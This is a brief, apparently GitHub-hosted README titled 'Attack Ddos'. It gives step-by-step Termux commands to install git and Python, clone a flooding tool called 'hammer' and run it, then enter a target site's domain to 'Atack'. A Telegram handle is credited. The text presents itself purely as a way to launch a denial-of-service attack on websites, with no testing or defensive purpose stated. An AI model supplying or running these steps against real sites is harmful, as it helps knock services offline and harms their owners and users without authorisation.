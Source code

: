 # Attack Ddos


OPEN in Termux 

apt update

apt upgrade

pkg install git

pkg install python2

git clone https://github.com/cyweb/hammer

ls

cd hammer

ls

chmod +x hammer.py

ls

python hammer.py

pkg install python

___________&&&____________

And Address Domain Site 

Bommmmmmm Atack ;))

@PmAref 
TELEGRAM
